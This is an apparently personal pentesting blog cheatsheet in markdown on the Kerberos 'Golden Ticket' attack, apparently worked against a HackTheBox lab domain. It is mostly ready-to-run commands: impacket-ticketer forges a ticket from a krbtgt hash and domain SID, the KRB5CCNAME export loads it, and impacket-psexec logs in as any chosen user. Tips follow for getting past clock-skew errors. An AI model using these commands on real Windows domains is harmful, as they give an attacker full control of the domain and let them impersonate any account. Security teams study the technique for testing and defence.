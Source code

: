 ```yaml
---
layout: post
title: "Cheatsheets: Golden Ticket"
date: 2022-08-10 23:32 +0100
tags: pentesting windows kerberos kali cheatsheet impacket
categories: [Cheatsheets, Windows]
published: false
---
```


![](/assets/img/2022-10-09-02-14-12.png)

need to get hold of the `krbtgt` hash (this is the key that Windows uses to sign tickets)

usually done by performing a DCSync and then performing a secretsdump

```bash
# to get the `-domain-sid` 
Get-ADDomain htb.local
```

```bash
impacket-ticketer -nthash 819af826bb148e603acb0f33d17632f8 -domain-sid S-1-5-21-3072663084-364016917-1341370565 -domain htb.local WhateverWeWant
```

The above command will create a file with the ticket information all you need to do to use it is set it as an environment variable:

```bash
export KRB5CCNAME=WhateverWeWant.ccache
```

Then we can PSExec in as literally any username we like because we just created a ticket with signed by the Domain, and everything within the Domain implicitly trusts anything signed by the Domain and doesn't bother to check, because that's how that works.

```bash
impacket-psexec -k -debug -no-pass htb.local\WhateverWeWant@forest
```

> Use the machine name/domain name to connect, this particular command doesn't like IP addresses (add to /etc/hosts)
{: .prompt-tip }

## Overcoming any Clock Skew Issues

Work out what Timezone the machine is in (roughly) and set that as your `localtime` in this case setting it to US/Pacific got us to the same caldendar date, which is the important bit of setting the Timezone.

```bash
sudo su
cat /usr/share/zoneinfo/US/Pacific > /etc/localtime
exit
```

If you still get a Clock Skew error run `date` on the target and just set your PC time to whatever time is on the box. Kerberos has issues if there is a difference of 10 minutes or so and some machines end up quite badly out of sync because their local NTP server is crap or you're attacking a VM with no external internet access so it can't update that way.

```bash
sudo date -s 18:05:49
```

> Rerun the `impacket-ticketer` command at this point to refresh the ticket.
{: .prompt-tip }


